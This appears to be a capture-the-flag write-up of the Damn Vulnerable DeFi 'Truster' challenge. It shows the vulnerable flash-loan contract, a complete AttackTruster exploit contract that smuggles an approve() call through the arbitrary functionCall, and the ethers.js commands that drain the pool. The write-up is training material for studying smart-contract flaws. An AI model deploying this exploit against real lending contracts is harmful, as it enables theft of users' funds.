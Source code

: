 <img src="https://github.com/wasny0ps/Damn-Vulnerable-DeFi/blob/main/src/3.png">

# Target Contract Review

Given contract.

**TrusterLenderPool.sol**

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../DamnValuableToken.sol";

/**
 * @title TrusterLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrusterLenderPool is ReentrancyGuard {
    using Address for address;

    DamnValuableToken public immutable token;

    error RepayFailed();

    constructor(DamnValuableToken _token) {
        token = _token;
    }

    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
}
```

`TrusterLenderPool` is a contract that **allows users to borrow tokens from the pool and execute arbitrary code in a flash loan**.

The constructor function takes an instance of the `DamnValuableToken` contract and assigns it to the token variable.

`flashLoan()` : It allows a borrower to borrow a specified amount of tokens from the pool and execute a target function with provided data. The borrower must provide the amount to borrow, their address, the target contract address, and the data to be executed.

Inside the function, the current balance of the token contract is stored in the `balanceBefore` variable. Then, the specified amount of tokens is transferred from the pool to the borrower's address using the transfer function of the token contract. After that, the target function specified by the borrower is executed using the `functionCall()` function.







Challenge's message:

> More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.
The pool holds 1 million DVT tokens. You have nothing.
To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

# Subverting

The `flashLoan()` function allows one to take a flash loan and then ensures that the loan has been paid back. This function executes the `target.functionCall(data)` command which gives us the **ability to call a low-level function**. In other words, we can call the ERC20 standard token's functions. Like `approve()`...

In this case, we can call the `approve()` function to approve all balances. After that, we clearly call the `flashLoan()` function to transfer all tokens from the pool contract **by passing the first parameter as 0**. Here is what our attack contract looks like:


```solidity
pragma solidity ^0.8.0;

import "../truster/TrusterLenderPool.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract AttackTruster {

    TrusterLenderPool pool;
    constructor(address payable _pool){
        pool = TrusterLenderPool(_pool);
    }

    function attack(IERC20 token)external{
        uint balance = token.balanceOf(address(pool));
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), balance);
        pool.flashLoan(0, msg.sender, address(token), data);
        token.transferFrom(address(pool), msg.sender, balance);
    }
}
```

Basically, it gets the address of the `TrusterLenderPool` contract in the constructor. Later, it gets the pool contract's balance. Next, it **encodes the data variable with the abi signature parameter as the approve function and its parameters** we will have sent when the `functionCall()` is executed.

In the final step, first, we call the flashLoan function to execute data. Lastly, we transfer all tokens to our balance. Here are the attacker commands:

```js
const AttackFactory = await ethers.getContractFactory('AttackTruster', deployer);
attack = await AttackFactory.deploy(pool.address);
await attack.connect(player).attack(token.address);
```

Solve the challenge.

```powershell
  [Challenge] Truster
    ✔ Execution (73ms)


  1 passing (2s)

Done in 2.75s.
```

**_by wasny0ps_**
